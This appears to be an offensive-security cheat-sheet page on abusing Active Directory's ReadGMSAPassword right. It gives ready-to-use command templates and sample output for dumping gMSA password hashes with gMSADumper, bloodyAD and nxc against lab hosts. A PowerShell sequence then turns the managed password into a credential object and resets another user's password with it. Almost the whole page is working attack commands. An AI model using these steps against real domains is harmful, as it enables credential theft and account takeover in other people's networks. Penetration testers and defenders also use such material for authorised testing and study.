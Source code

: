 ```yaml
---
title: "ReadGMSAPassword"
date: 2024-7-23
tags: ["Credential Dumping", "ReadGMSApassword", "Gmsadumper", "Active Directory", "Windows"]
---
```


### Abuse #1: Read GMSAPassword (From Linux)

{{< tab set1 tab1 >}}gMSADumper{{< /tab >}}
{{< tab set1 tab2 >}}BloodyAD{{< /tab >}}
{{< tab set1 tab3 >}}nxc{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
python3 gMSADumper.py -u '<USER>' -p '<PASSWORD>' -l <DC> -d <DOMAIN>
```

```console {class="sample-code"}
$ python3 gMSADumper.py -u ted.graves -p Mr.Teddy -l intelligence.htb -d intelligence.htb
Users or groups who can read password for svc_int$:
 > DC$
 > itsupport
svc_int$:::745bd2c68dfc101a74f48d87027c7dc6
svc_int$:aes256-cts-hmac-sha1-96:8b2e9edb20258a45ad9084c89e7df761f3b85da5abd92849c150d4ed43f1056f
svc_int$:aes128-cts-hmac-sha1-96:798345b20bd9a8866a87b351c0ad68f3
```

<small>*Ref: [gMSADumper](https://github.com/micahvandeusen/gMSADumper)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
sudo ntpdate -s <DC_IP> && bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> get object '<TARGET_OBJECT>' --attr msDS-ManagedPassword
```

```console {class="sample-code"}
$ python3 bloodyAD.py -d intelligence.htb -u ted.graves -p 'Mr.Teddy' --host intelligence.htb get object 'svc_int$' --attr msDS-ManagedPassword 

distinguishedName: CN=svc_int,CN=Managed Service Accounts,DC=intelligence,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:80d4ea8c2d5ccfd1ebac5bd732ece5e4
msDS-ManagedPassword.B64ENCODED: wcVVmCKWYOZszus92zsZDFqtPFYu960EdHowLnWB5vChR4R/yj+hgVusvxgnG1OYREO70qnEiCEfP62qLZluS/UHz53T94CItJ+YxA6W5jiWTy0L03JgE1m87NCnxrzGSXHXjp4Ja1OKDde9RrIaqGN7C7cFZth05q1bOOO+x8+jdD1xRXHKgig5LDk4inLQ1xqu7Lc4vT/hIIPx2dbS0FNwGtKu2NTTVAAB/LgVwYnfMNkpti2T0cE8R12HzjGVLV/54GLU1O8iLyXdnfgAQUdnccIlSacJ3XItjjeTWuOwCKQKmc0o8BbE+rHjA5dotmBiBHsE9bw3YsCh0SNTeA==
```

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
nxc ldap -u '<USER>' -p '<PASSWORD>' -d <DOMAIN> <DC> --gmsa
```

```console {class="sample-code"}
$ nxc ldap -u ted.graves -p 'Mr.Teddy' -d intelligence.htb dc01.intelligence.htb --gmsa
SMB         10.10.10.248    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
LDAPS       10.10.10.248    636    DC               [+] intelligence.htb\ted.graves:Mr.Teddy 
LDAPS       10.10.10.248    636    DC               [*] Getting GMSA Passwords
LDAPS       10.10.10.248    636    DC               Account: svc_int$             NTLM: 80d4ea8c2d5ccfd1ebac5bd732ece5e4
```

{{< /tabcontent >}}

---

### Abuse #2: Save as Cred

{{< tab set2 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
$gmsa = Get-ADServiceAccount -Identity '<TARGET_NAME>' -Properties 'msDS-ManagedPassword'
```

```console {class="sample-code"}
PS C:\programdata> $gmsa = Get-ADServiceAccount -Identity 'BIR-ADFS-GMSA' -Properties 'msDS-ManagedPassword'
```

```console
$mp = $gmsa.'msDS-ManagedPassword'
```

```console {class="sample-code"}
PS C:\programdata> $mp = $gmsa.'msDS-ManagedPassword

PS C:\programdata> ConvertFrom-ADManagedPasswordBlob $mp

Version                   : 1
CurrentPassword           : ꪌ絸禔හॐ๠뒟娯㔃ᴨ蝓㣹瑹䢓疒웠ᇷꀠ믱츎孻勒壉馮ၸ뛋귊餮꤯ꏗ춰䃳ꘑ畓릝樗껇쁵藫䲈酜⏬궩Œ痧蘸朘嶑侪糼亵韬⓼ↂᡳ춲⼦싸ᖥ裹沑扚羺歖㗻෪ꂓ㚬⮗㞗ꆱ긿쾏㢿쭗캵십ㇾ롤
                            ᒛ�䬁ማ譿녓鏶骲雰騆惿閴滭䶙竜迉竾ﵸ䲗蔍瞬䦕垞뉧⩱茾蒚⟒澽座걍盡篇
SecureCurrentPassword     : System.Security.SecureString
PreviousPassword          : 
SecurePreviousPassword    : 
QueryPasswordInterval     : 2019.19:45:41.4967000
UnchangedPasswordInterval : 2019.19:40:41.4967000
```

```console
$password = (ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
```

```console {class="sample-code"}
PS C:\programdata> $password = (ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
```

```console
$SecPass = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```

```console {class="sample-code"}
PS C:\programdata> $SecPass = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```

```console
$cred = New-Object System.Management.Automation.PSCredential '<TARGET_NAME>', $SecPass
```

```console {class="sample-code"}
PS C:\programdata> $cred = New-Object System.Management.Automation.PSCredential 'BIR-ADFS-GMSA', $SecPass
```

```console
# For example, change password of another target user
Invoke-Command -ComputerName <COMPUTER_NAME> -ScriptBlock {Set-ADAccountPassword -Identity '<ANOTHER_TARGET_NAME>' -reset -NewPassword (ConvertTo-SecureString -AsPlainText '<NEW_PASSWORD>' -force)} -Credential $cred
```

```console {class="sample-code"}
PS C:\programdata> Invoke-Command -ComputerName . -ScriptBlock {Set-ADAccountPassword -Identity 'tristan.davies' -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'Test1234' -force)} -Credential $cred
```

{{< /tabcontent >}}
